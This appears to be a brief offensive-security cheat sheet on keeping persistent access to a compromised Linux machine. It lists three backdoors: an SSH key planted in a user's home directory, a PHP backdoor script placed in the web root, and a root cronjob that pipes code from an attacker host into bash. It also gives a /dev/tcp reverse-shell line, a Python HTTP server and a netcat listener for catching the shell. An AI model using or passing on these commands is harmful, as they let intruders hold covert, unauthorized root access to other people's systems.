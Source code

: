 				SSH BackDoor

-- ssh-keygen                                   Generates ssh key
    -- Leave public key                      	 Place '/home/.ssh'
        -- chmod 600 id_rsa               	  Gives permissions
-- ssh -i id_rsa user@ip                    Use BackDoor

				PHP BackDoor
-- setup netcat
-- Location                                         /var/www/html 
    -- BackDoor script

-- Where to execute script                https://ip/PHP-BackDoor.php

				Cronjob BackDoor
-- Add to Cronjob                               * *     * * *   root    curl http://<IP>:8080/shell | bash
    -- Add Script inside Cronjob            #!/bin/bash
								bash -i >& /dev/tcp/ip/port 8080>&1
-- Get Bash shell

-- Host HTTP server                             python3 -m http.server 8080
--	 listen with netcat			   nc -nvlp <port>

				Links

-- https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c
